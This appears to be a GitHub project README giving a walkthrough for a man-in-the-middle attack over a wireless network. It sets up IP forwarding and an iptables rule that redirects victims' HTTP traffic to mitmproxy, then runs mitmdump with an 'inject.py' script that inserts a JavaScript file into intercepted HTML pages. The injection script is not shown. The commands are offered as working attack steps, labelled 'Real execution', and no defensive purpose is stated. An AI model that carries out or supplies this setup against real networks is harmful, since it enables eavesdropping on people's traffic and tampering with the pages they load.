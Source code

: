 # Project Walkthrough

# Prerequisites

In the machine tested, I used the built in wireless adapter and connected to internet through Ethernet

# System Setup

## Install mitmproxy

Get instruction from [their site](www.mitmproxy.org)

## Setup ip forwarding

The below commands assumes you're running as root:

    sysctl -w net.ipv4.ip_forward=1

## Setup routing using IPtables

As for my machine, my wireless adapter is named `wlp3s0`. Make sure that the port you will be using for `mitmproxy` matches the `--dport` option (destination port). Again, root privileges required

    iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 80 -J REDIRECT --to-port 8080

# Executing Man in the middle attack

## Real execution

    mitmdump -T -p 8080 -s "inject.py test.js" "~t 'text/html' ~s ~c 200"

`mitmdump` does what `mitmproxy` but in an automated way. `mitmproxy` allows interception but manually, hence, Testing section is for learning.

## Testing (optional, if you want to know whats happening)

Run `mitmproxy -T -p 8080` . The port should match the `iptables` destination port.

Try a site like [httpbin.org](http://www.httpbin.org). You should now be able to see traffic in the screen. Press `?` for instructions.

To intercept, press `i`. Set the following filters:

   Intercept filter: ~t "text/html" ~s ~c 200 
    
